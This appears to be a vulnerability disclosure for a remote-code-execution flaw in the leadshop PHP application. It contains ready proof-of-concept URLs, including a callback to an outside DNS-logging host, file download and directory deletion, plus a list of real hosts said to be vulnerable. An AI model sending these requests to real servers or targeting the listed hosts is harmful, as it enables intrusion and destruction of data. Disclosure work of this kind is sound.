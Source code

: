There is an RCE vulnerability in qmpaas/leadshop(https://github.com/qmpaas/leadshop )
-
Description
-
There is an RCE vulnerability in qmpaas/leadshop (https://github.com/qmpaas/leadshop) (v1.4.15). An attacker can access the file leadshop.php and call any existing function through GET to control the target host.  
The vulnerability is in the leadshop/web/leadshop.php[27-61] file  

```  
 public function run()  
    {  
        //读取参数数据  
        $include = isset($_GET['include']) ? $_GET['include'] : "";  
        $data    = isset($_GET['data']) ? $_GET['data'] : "";  
        $meta    = isset($_GET['meta']) ? $_GET['meta'] : "";  
        //执行数据方法  
        if ($include) {  
            return call_user_func_array([$this, $include], [$meta, $data]);  
        } else {  
            //用于判断是否非法操作  
            $token = isset($_GET['token']) ? $_GET['token'] : "";  
            $html  = get_oss_url('index.html');  
            //判断锁文件是否存在，存在则是要执行更新  
            if (@file_exists(dirname(__DIR__) . "/install.lock")) {  
                if (@file_get_contents(dirname(__DIR__) . "/install.lock") === $token) {  
                    if (!isset($_SESSION['self_update'])) {  
                        //执行更新自身  
                        $this->SilentSelfUpdate();  
                    }  
                    //执行更新操作  
                    $version = get_version();  
                    $body    = $this->DownloadFile($html);  
                    echo str_replace('{$version}', $version, $body);  
                } else {  
                    die("检测到非法Token，请登录后台进入更新界面");  
                }  
            } else {  
                $version = get_version();  
                $body    = $this->DownloadFile($html);  
                echo str_replace('{$version}', $version, $body);  
            }  
        }  

    }  
```
The ```call_user_func_array``` function is used directly, and $include, $data, and $meta receive get parameters, which allows us to run all functions in this file (parameters less than or equal to 2), such as:  
HttpGet (http access: poc: ```https://demo.leadshop.vip/leadshop.php?include=HttpGet&meta=6nup69.dnslog.cn```),  
ToMkdir (create folder: poc: ```https://demo.leadshop.vip/leadshop.php?include=ToMkdir&meta=1```),  
UpdateSql (perform database update: poc: ```https://demo.leadshop.vip/leadshop.php?include=UpdateSql```),  
DownloadFile (download file: poc: 
```https://demo.leadshop.vip/leadshop.php?include=DownloadFile&meta=www.baidu.com/img/flexible/logo/pc/peak-result.png```),  
RemoveDir (remove directory: poc: 
```https://demo.leadshop.vip/leadshop.php?include=RemoveDir&meta=[path]```)  
-
Proof of Concept:
-
Poc：
(This url is applied from DNSLog(http://dnslog.cn/) in advance. Click "Get SubDomain", access the poc, and click "Refresh Record" to Refresh.)  
```
https://demo.leadshop.vip/leadshop.php?include=HttpGet&meta=6nup69.dnslog.cn  
```
DNSLog picture:
![img](DNSLog.png)  
-
Impact
-
Attackers can call any existing functions at will, control the target server to access, download, create files, delete files, etc.  
Access may make the server a dos server.  
Download, so that an attacker can download the PHP Trojan to the server.  
Creating and deleting will destroy normal services.  
More than ten IPs are using this service(Fofa Search:"Powered By Leadshop © 2021").  
```
https://8.141.175.3
http://www.huatianlinye.com
https://39.107.102.163
https://42.193.253.224
https://store.mianhuain.com
http://shop.yongzhitang.com
https://101.201.209.92
http://119.3.229.175:7788
https://101.200.231.65
https://zhangtong.store.mianhuain.com
```
-
Occurrences
-
https://github.com/qmpaas/leadshop/blob/42de4233357671b96b18f8c8b2f1d7a74a809755/web/leadshop.php#L27
https://github.com/qmpaas/leadshop/blob/42de4233357671b96b18f8c8b2f1d7a74a809755/web/leadshop.php#L35
https://github.com/qmpaas/leadshop/blob/42de4233357671b96b18f8c8b2f1d7a74a809755/web/leadshop.php#L103
https://github.com/qmpaas/leadshop/blob/42de4233357671b96b18f8c8b2f1d7a74a809755/web/leadshop.php#L304
https://github.com/qmpaas/leadshop/blob/42de4233357671b96b18f8c8b2f1d7a74a809755/web/leadshop.php#L328
https://github.com/qmpaas/leadshop/blob/42de4233357671b96b18f8c8b2f1d7a74a809755/web/leadshop.php#L349
https://github.com/qmpaas/leadshop/blob/42de4233357671b96b18f8c8b2f1d7a74a809755/web/leadshop.php#L395
https://github.com/qmpaas/leadshop/blob/42de4233357671b96b18f8c8b2f1d7a74a809755/web/leadshop.php#L444
https://github.com/qmpaas/leadshop/blob/42de4233357671b96b18f8c8b2f1d7a74a809755/web/leadshop.php#L477
https://github.com/qmpaas/leadshop/blob/42de4233357671b96b18f8c8b2f1d7a74a809755/web/leadshop.php#L495
https://github.com/qmpaas/leadshop/blob/42de4233357671b96b18f8c8b2f1d7a74a809755/web/leadshop.php#L509